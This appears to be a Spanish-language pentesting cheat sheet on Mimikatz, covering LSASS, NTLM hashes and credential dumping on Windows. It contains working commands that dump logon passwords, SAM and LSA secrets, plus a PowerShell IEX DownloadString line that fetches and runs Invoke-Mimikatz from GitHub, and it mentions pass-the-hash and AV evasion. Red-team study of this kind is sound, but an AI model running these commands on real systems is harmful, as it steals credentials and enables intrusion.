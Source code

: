 # Mimikatz 

Tags: #Mimikatz #Windows  #LSASS

Mimikatz es una herramienta de seguridad de código abierto desarrollada por Benjamin Delpy (gentilkiwi), ampliamente reconocida en la comunidad de ciberseguridad. Es comúnmente empleada en actividades de Red Teams y evaluaciones de seguridad en sistemas Windows. Su objetivo principal es analizar y aprovechar diversas vulnerabilidades de seguridad en este sistema operativo, siendo especialmente conocida por su capacidad para recuperar contraseñas en texto plano, hashes NTLM y tickets Kerberos directamente desde la memoria. Además, permite realizar técnicas como pass-the-hash, pass-the-ticket y generar tickets Kerberos dorados o plateados, lo que resulta invaluable para movimientos laterales dentro de entornos Active Directory (AD).

Dentro de la sesión de Meterpreter usaremos la extensión de Kiwi para dumpear passwords. Pero debemos de ser 'NT Authority\\System'

# LSASS

El servicio Local Security Authority Subsystem Service (LSASS) en sistemas operativos Windows es crucial para la administración de la política de seguridad y maneja la autenticación de usuarios en el sistema local. Para un pentester, el entendimiento profundo de LSASS y cómo interactúa con los componentes de seguridad de Windows es fundamental para la evaluación de la postura de seguridad de un sistema y la ejecución de ciertas formas de ataques. Aquí hay varios aspectos de LSASS que son de especial interés:

```bash 
# Función y Rol de LSASS

- Autenticación: LSASS es responsable de la autenticación de usuarios para las sesiones de inicio de sesión en una computadora.
- Creación de Tokens: Cuando se autentica a un usuario, LSASS genera un "token de acceso" que contiene los derechos y privilegios del usuario.
- Almacenamiento de Credenciales: En el proceso de LSASS, las credenciales, como hashes de contraseñas y tickets Kerberos, son almacenados en la memoria.
    

# Ataques y Tácticas Asociadas con LSASS
- Dumping de Credenciales: Las herramientas de extracción de credenciales como Mimikatz explotan el acceso a LSASS para obtener hashes de contraseñas y tickets de autenticación.
- Pass-the-Hash / Pass-the-Ticket: Las credenciales extraídas pueden ser usadas para realizar estos ataques, permitiendo a los atacantes autenticarse como otro usuario sin conocer la contraseña en texto claro.
- Inyección de Código: Los atacantes pueden intentar inyectar código malicioso en el proceso LSASS para interceptar credenciales o elevar privilegios.
    

Técnicas de Protección y Evasión
- Protección de Memoria: Los pentesters deben estar al tanto de las características como Credential Guard que protegen la memoria de LSASS.
- Detección de Anomalías: La manipulación de LSASS puede disparar alertas en soluciones de detección de intrusiones y en los sistemas de protección contra malware.
- Técnicas de Evasión: Para evitar la detección, los pentesters pueden necesitar usar técnicas de evasión o desarrollar nuevas herramientas que no estén firmadas por firmas de AV.
```

## Hash NTLM

```bash 
El hash NTLM (NT LAN Manager) es una función hash utilizada por Microsoft para almacenar contraseñas de usuario. Es un método de cifrado que ha sido utilizado en varios protocolos de autenticación de Microsoft a lo largo de los años, incluidos los protocolos de autenticación de red como NTLMv1 y NTLMv2.

Características y detalles sobre el hash NTLM:

1. Forma de Creación: El hash NTLM se crea tomando la contraseña del usuario, convirtiéndola a Unicode y luego aplicando una función hash MD4.
    
2. No tiene SALT: A diferencia de otros métodos de almacenamiento de contraseñas, el hash NTLM no utiliza un "salto" (valor aleatorio agregado para hacer que el hashing sea más seguro). Esto lo hace vulnerable a ataques de fuerza bruta y a ataques de tabla arco iris, donde los atacantes usan tablas precomputadas para buscar rápidamente el valor original de un hash.
    
3. Uso en Protocolos: Aunque NTLM ha sido reemplazado en gran medida por métodos más seguros como Kerberos en entornos modernos de Active Directory, todavía se encuentra en muchas redes debido a la retrocompatibilidad o configuraciones heredadas.
    
4. Vulnerabilidades: Debido a sus debilidades inherentes y la falta de características de seguridad modernas, NTLM es susceptible a una variedad de ataques, como el mencionado ataque de tabla arco iris, ataques de relevo NTLM, y otros.
    
5. Recomendación: Debido a las debilidades conocidas asociadas con NTLM, se recomienda deshabilitar su uso siempre que sea posible, en favor de protocolos de autenticación más seguros como Kerberos.
```

## Extracción de credenciales con binario

* [Mimikatz](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/kali/master/x64?ref_type=heads)

```bash 
❯ net user                            # Miramos todos los usuarios existentes y sus grupos
❯ net user /domain                    # Identificar los usuarios del dominio
```

```powershell
# Ejecutar Mimikatz como 'Administrador'
❯ .\mimikatz.exe 'privilege::debug' 'token::elevate' 'sekurlsa::logonpasswords' 'lsadump::sam' 'lsadump::secrets' exit


Nota1:
	1. sekurlsa::logonpasswords = Muestra info de cada usuario 'Name, Hash NTLM, SHA1, Domain'. El 'SID' es un identificador unico del objeto en el DC
	2. Existen usuarios por defecto 'DWM-8, DWM-10, UMDF-8, UMDF-10, etc...' ya que tienen como dominio 'Window Manager, Font Driver Host'
	3. Mirar si la 'session' = 'Service from 0', si es asi guardar toda la salida del usuario ya que se puede utilizar
	4. Si al final del 'username' hay un '$' quiere decir que es un objeto de tipo computador
	5. Valores importantes a guardar 'SID, Username, Domain, NTLM, SHA1'


Nota2:
	1. lsadump::sam = Muestra las credenciales en la DB SAM
	2. Guardar los hashes 'NTLM' del usuario 'Administrator' local 
```

```powershell
❯ Invoke-mimikatz -DumpCreds          # Dumpear las credenciales locales, obtener el NTLM y hacer un PtH
❯ Invoke-mimikatz -DumpCreds -ComputerName @("comp1","comp2")
```

## Extracción de credenciales con Powershell 

```powershell 
# Descargamos el binario del repositorio
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');

# Utilizamos la funcion para ejecutar Mimikatz
❯ Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::secrets"'
```

```bash 
1. 'privilege::debug': Este comando en Mimikatz solicita privilegios de depuración para el proceso Mimikatz. Los privilegios de depuración son necesarios para acceder a ciertas áreas de la memoria del sistema operativo y realizar operaciones que normalmente están restringidas.
    
2. 'token::elevate': Este comando intenta elevar los privilegios de Mimikatz. En el contexto de Mimikatz, esto generalmente significa obtener un token de seguridad de un proceso con privilegios más altos, permitiendo que Mimikatz opere con esos privilegios elevados.
    
3. 'sekurlsa::logonpasswords': Este comando extrae las contraseñas y otros datos de autenticación de la memoria del sistema, específicamente desde la seguridad de Kerberos, SSP, msv1_0, entre otros. Utiliza el módulo sekurlsa de Mimikatz para acceder a la información almacenada por el proceso LSASS (Local Security Authority Subsystem Service).

    
4. 'lsadump::sam': Este comando extrae las credenciales almacenadas en la base de datos SAM (Security Accounts Manager). La SAM contiene las credenciales de todos los usuarios locales del sistema y se utiliza generalmente para obtener hashes de contraseñas de cuentas locales.

    
5. 'lsadump::secrets': Este comando se utiliza para extraer "secretos" almacenados por el sistema, como claves de acceso y otros datos sensibles, que pueden estar almacenados en el registro o en el servicio LSASS.
```